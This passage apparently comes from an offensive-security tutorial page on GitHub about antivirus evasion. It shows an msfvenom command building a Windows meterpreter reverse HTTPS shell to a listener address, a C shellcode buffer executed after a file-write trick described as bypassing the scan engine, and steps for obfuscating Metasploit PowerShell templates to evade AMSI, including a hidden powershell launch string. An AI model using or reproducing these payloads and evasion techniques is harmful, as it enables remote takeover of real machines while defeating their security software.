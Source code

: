```
      msfvenom -p windows/meterpreter/reverse_https lhost=192.168.153.149 lport=443 -e x86/shikata_ga_nai -f c -a x86 --platform Windows
      */

      unsigned char buffer[]= 
      "\xda\xcc\xba\x6f\x33\x72\xc4\xd9\x74\x24\xf4\x5e\x2b\xc9\xb1"
      "\x75\x31\x56\x18\x83\xc6\x04\x03\x56\x7b\xd1\x87\x38\x6b\x97"
      "\x68\xc1\x6b\xf8\xe1\x24\x5a\x38\x95\x2d\xcc\x88\xdd\x60\xe0"
      "\xe9\x88\xb7\xf5\xbc\x2b\x91\x9f\xbe\x78\xe1\xb5";
	
      /*
      Here is the bypass. A file is written, this bypasses the scan engine
      */
        HANDLE hFile;
	hFile= CreateFile(_T("hello.txt"), FILE_READ_DATA, FILE_SHARE_READ, NULL, OPEN_ALWAYS, 0, NULL);
	if (hFile == INVALID_HANDLE_VALUE) 
		exit(0);

	exec_mycode(buffer);
      }
```

[0] [Glosario (Index)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/simple_obfuscation.md#glosario-index)<br />
[1] [avepoc - some pocs for antivirus evasion](https://github.com/govolution/avepoc)<br />

---

<br /><br /><br /><br />

## OBFUSCATING THE METASPLOIT TEMPLATE (psh-cmd)

      when we use metasploit to build shellcode, msfvenom uses pre-written templates to embebbed
      the shellcode on it, those templates contain also system calls that migth be detected by
      AMSI mechanism, to avoid that we need to decode the base64 string produced by msfvenom,
      search for the syscalls, obfuscate them, and encode the template again to base64 to be
      embebbed into Unicorn.ps1 article template (or using the default msfvenom template).

<br />

Build shellcode using msfvenom<br />
![obfuscating the template](http://i.cubeupload.com/DLjxC2.png)

Editing msfvenom template<br />
![obfuscating the template](http://i.cubeupload.com/z9bcjh.jpg)

Strip the template to extact only the base64 string (parsing data)<br />
`HINT: Deleting from template the string: %comspec% /b /c start /min powershell.exe -nop -w hidden -e`<br />
![obfuscating the template](http://i.cubeupload.com/ZtyCYd.png)
